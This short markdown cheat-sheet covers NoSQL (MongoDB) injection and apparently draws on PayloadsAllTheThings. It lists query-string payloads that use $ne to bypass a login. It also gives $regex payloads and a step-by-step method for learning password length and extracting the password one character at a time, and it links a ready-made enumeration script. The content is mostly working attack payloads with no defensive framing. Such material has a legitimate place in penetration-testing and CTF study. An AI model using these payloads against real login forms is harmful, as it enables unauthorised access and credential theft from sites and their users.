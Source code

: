 
As always : payloadallthethings

## Bypass authentication 

```username[$ne]=toto&password[$ne]=toto```

## Extract length information :
```username[$ne]=toto&password[$regex]=.{1}```
1. Increase the number until the request change
2. Same principle to search the length of a username

## Find characters in NoSQL
```username[$ne]=toto&password[$regex]=m.*```
or 
```username[$ne]=toto&password[$regex]=m.{length}```

- Ready script, or write your own :) : https://github.com/an0nlk/Nosql-MongoDB-injection-username-password-enumeration
